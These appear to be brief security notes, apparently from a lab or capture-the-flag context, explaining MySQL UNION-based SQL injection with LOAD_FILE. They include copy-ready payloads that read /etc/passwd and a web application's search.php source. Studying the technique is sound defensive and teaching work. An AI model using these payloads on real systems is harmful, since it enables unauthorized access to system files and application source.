 
using the Load_file function we can inject it into the query and select a file we wanna read. 

we can use a union injection like this:
<span style="color:rgb(255, 0, 0)">' union select null,Load_file("/etc/passwd"),null,null-- -</span> 
to read /etc/passwd

we can also use it to read source code of certain files like a search.php file: 

```sql
' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

